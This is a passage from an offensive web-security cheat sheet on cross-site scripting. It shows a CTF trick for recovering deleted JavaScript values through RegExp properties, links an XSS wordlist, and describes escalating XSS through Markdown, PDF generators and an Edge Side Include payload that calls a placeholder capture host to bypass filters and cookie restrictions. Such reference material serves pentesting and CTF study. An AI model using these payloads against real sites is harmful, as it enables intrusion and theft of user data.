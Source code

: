 ### Regex - Access Hidden Content

From [**this writeup**](https://blog.arkark.dev/2022/11/18/seccon-en/#web-piyosay) it's possible to learn that even if some values disappear from JS, it's still possible to find them in JS attributes in different objects. For example, an input of a REGEX is still possible to find it after the value of the input of the regex was removed:

```javascript
// Do regex with flag
flag="CTF{FLAG}"
re=/./g
re.test(flag);

// Remove flag value, nobody will be able to get it, right?
flag=""

// Access previous regex input
console.log(RegExp.input)
console.log(RegExp.rightContext)
console.log(document.all["0"]["ownerDocument"]["defaultView"]["RegExp"]["rightContext"])
```

### Brute-Force List

{% embed url="https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/xss.txt" %}

## XSS Abusing other vulnerabilities

### XSS in Markdown

Can inject Markdown code that will be renderer? Maybe you you can get XSS! Check:

{% content-ref url="xss-in-markdown.md" %}
[xss-in-markdown.md](xss-in-markdown.md)
{% endcontent-ref %}

### XSS to SSRF

Got XSS on a **site that uses caching**? Try **upgrading that to SSRF** through Edge Side Include Injection with this payload:

```python
<esi:include src="http://yoursite.com/capture" />
```

Use it to bypass cookie restrictions, XSS filters and much more!\
More information about this technique here: [**XSLT**](../xslt-server-side-injection-extensible-stylesheet-language-transformations.md).

### XSS in dynamic created PDF

If a web page is creating a PDF using user controlled input, you can try to **trick the bot** that is creating the PDF into **executing arbitrary JS code**.\
So, if the **PDF creator bot finds** some kind of **HTML** **tags**, it is going to **interpret** them, and you can **abuse** this behaviour to cause a **Server XSS**.
